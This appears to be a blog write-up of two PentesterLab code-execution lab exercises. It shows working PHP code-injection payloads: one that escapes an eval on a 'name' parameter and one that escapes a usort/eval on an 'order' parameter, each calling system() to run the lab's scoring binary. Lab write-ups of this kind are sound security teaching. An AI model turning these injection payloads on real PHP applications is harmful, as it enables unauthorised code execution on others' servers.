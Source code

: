 # Code Execution 01

This exercise is one of our challenges on Code Execution

![1694106610816.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694106610816.png)

This is the first lab of the Code execution series, we access the given site provided by the lab:

we saw this:

![1694107544895.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694107544895.png)

we could edit the name parameter and get the result on the page, we now fuzz and find that the name parameter is processed by `eval`.

we now craft a payload to execute the scoring binary located in /usr/local/bin/score with our

```http
https://ptl-551d1ea87290-e115e386066a.libcurl.me/?name=eval%22.system(%27/usr/local/bin/score%208e9cc44e-938a-4a52-9261-618553edda92%20%27);//
```

and we got this result:

![1694107497178.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694107497178.png)

# Code Execution 02

This exercise is one of our challenges on Code Execution

![1694107726180.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694107726180.png)

This challenge is similar to the previous one but in this case we have to exploit the z_send_function in php that is under usort which executes user input using eval when input is improperly sanitized!.

I feel like this challenge is very similar to XSS injection attack, same similar concept of closing tag and commenting the rest of the orginal code 😆

we use the following payload :

```http
/?order=id);}system('/usr/local/bin/score%208e9cc44e-938a-4a52-9261-618553edda92');//
```

using repeater we send this request:

![1694108322030.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694108322030.png)

and we got the following result:

![1694108472151.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694108472151.png)

# Code Execution 03
